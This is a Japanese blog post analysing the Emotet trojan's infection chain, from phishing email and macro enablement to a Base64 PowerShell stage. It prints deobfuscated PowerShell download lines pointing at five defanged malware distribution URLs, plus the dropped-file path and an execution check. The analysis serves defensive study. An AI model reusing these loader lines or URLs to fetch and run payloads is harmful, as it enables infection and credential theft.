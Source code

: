 ```yaml
---
date: 2022-10-13T04:00:00
draft: false
title: "Emotet マルウェアの分析"
description: 
featured_image: "cdn/respond/emotet-malware-analysis-1.png"
tags: ["Emotet", "トロイの木馬", "PowerShell", "マルウェア", "サイバーセキュリティ"]
---
```


## Emotetとは？

- 主にメールを通じて拡散されるトロイの木馬
- 正規のメールのように偽装し、ユーザーに悪意のあるファイルをクリックさせる手法
- トロイの木馬を更新し、システムにアクセスを確立した後、運営者が追加ペイロードをダウンロードできるようにする「ローダー」型のマルウェア
- 感染したホストから銀行の資格情報を盗む、被害者から金銭を搾取することを目的に動作
<br>

<!--more-->

![emotet-malware-analysis](https://blog.plura.io/cdn/respond/emotet-malware-analysis-1.png)

## Emotet 実行/分析

### 1. ソーシャルエンジニアリング手法を用いて攻撃対象にメールを送信
![02](https://github.com/user-attachments/assets/5dae9811-e676-4697-b7ee-a84f229d9b2b)
<br><br>


### 2. 攻撃対象が疑わず添付ファイルをダウンロード
![03](https://github.com/user-attachments/assets/e647b197-5a0b-47da-abd9-f13709fc17fc)
<br><br>


### 3. ファイルを開き、マクロを実行するため「コンテンツの有効化」をクリック
![04](https://github.com/user-attachments/assets/7f4d218d-10d8-4d50-a008-31c9ee7e304f)
<br><br>


### 4. Base64でエンコードされたコードがPowerShellプロセスで実行される
![05](https://github.com/user-attachments/assets/80f38782-331a-49e3-aebc-9ba41e7a2c36)
<br><br>


### 5. PowerShellコマンドによってconhostが実行
![06](https://github.com/user-attachments/assets/86c4c82b-baae-45af-b68b-e9cea82786aa)

![07](https://github.com/user-attachments/assets/ad597df8-9608-4995-9dfa-b6b38545088e)
<br><br>


### 6. PowerShellスクリプトコードの実行
![08](https://github.com/user-attachments/assets/54c535af-f81f-44d5-870e-d7d9e5de3d84)
<br><br>


### 7. PowerShellスクリプトコードの分析
![09](https://github.com/user-attachments/assets/e875c2f5-5371-41d6-97ea-f31777ccc789)
<br>

1) 以下のURLからファイルをダウンロード
new-object NeT.wEBClIEnt DOwNlOaDfiLe(hxxp://blockchainjoblist.com/wp-admin/014080/)
new-object NeT.wEBClIEnt DOwNlOaDfiLe(hxxps://womenempowermentpakistan.com/wp-admin/paba5q52/)
new-object NeT.wEBClIEnt DOwNlOaDfiLe(hxxps://atnimanvilla.com/wp-content/073735/)
new-object NeT.wEBClIEnt DOwNlOaDfiLe(hxxps://yeuquynhnhai.com/upload/41830/)
new-object NeT.wEBClIEnt DOwNlOaDfiLe(hxxps://deepikarai.com/js/4bzs6/)

2) 以下のパスにファイルを保存
$env:userprofile\284.exe

3) 23931バイト以上の場合実行
(Get-Item $env:userprofile\284.exe).LeNgTh -ge 23931

<br>

### 8. ユーザーフォルダーにファイル生成
![010](https://github.com/user-attachments/assets/c0522f7e-2c7c-4751-90c5-a3780de0902b)

![011](https://github.com/user-attachments/assets/3bf9893f-d832-4331-bc2b-5be171e84f9e)

![012](https://github.com/user-attachments/assets/773bc501-4236-4bbc-9766-510595828a77)
<br>

📖 一緒に読む
- [wiki_Emotet](https://en.wikipedia.org/wiki/Emotet)
- [malwarebytes_Emotet](https://www.malwarebytes.com/emotet)
